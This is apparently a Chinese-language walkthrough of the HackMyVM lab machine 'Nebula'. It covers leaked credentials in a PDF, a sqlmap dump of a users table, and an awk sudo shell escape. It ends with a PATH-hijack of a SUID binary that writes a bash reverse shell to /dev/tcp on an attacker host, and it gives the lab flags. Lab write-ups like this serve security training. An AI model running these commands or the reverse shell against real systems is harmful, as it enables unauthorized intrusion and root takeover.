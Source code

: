 # Nebula

2025.03.24 https://hackmyvm.eu/machines/machine.php?vm=Nebula

[video](https://www.bilibili.com/video/BV1pYokY6EbN/?spm_id_from=333.1387.collection.video_card.click&vd_source=aed2f374c732513d2e535afafb1fd2ec)

## Ip

192.168.5.39

## Scan

```
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

有登陆窗口，但是没有 sql 注入，在目录爆破中发现http://192.168.5.40/joinus/application_form.pdf 里面有一段标记了绿色的登陆凭据：

```
user=admin&password=d46df8e6a5627debf930f7b5c8f3b083
```

http://192.168.5.40/login/index.php 使用此凭据登陆成功。

搜索页面存在 sql 注入: http://192.168.5.40/login/search_central.php 直接 sqlmap：

```
nebuladb库中存在3个表: central 、centrals 、 users
sqlmap -r req.txt --batch -D nebuladb -T users --dump
```

发现 pmccentral:999999999 可登陆 ssh。

sudo -l 显示 awk，可切换到另外一个用户 laboratoryadmin:

```
sudo -u laboratoryadmin awk 'BEGIN {system("/bin/bash")}'
```

先拿到 user flag:

```
laboratoryadmin@laboratoryuser:~$ cat user.txt
flag{$udOeR$_Pr!V11E9E_I5_7En53}
```

发现 suid 程序：

```
laboratoryadmin@laboratoryuser:~/autoScripts$ ls -al
-rwxrwxr-x 1 laboratoryadmin laboratoryadmin     8 Dec 18  2023 head
-rwsr-xr-x 1 root            root            16792 Dec 17  2023 PMCEmployees
```

strings 查看字符串发现 PMCEmployees 内部调用了: head /home/pmccentral/documents/employees.txt , 直接修改 head 脚本的内容,并进行 PATH 变量劫持：

```
echo '/bin/bash -c "/bin/bash -i >& /dev/tcp/192.168.5.3/8888 0>&1"' > head
export PATH=/home/laboratoryadmin/autoScripts:$PATH
laboratoryadmin@laboratoryuser:~/autoScripts$ ./PMCEmployees
```

拿到 root flag:

```
root@laboratoryuser:/root# cat root.txt
flag{r00t_t3ns0}
```
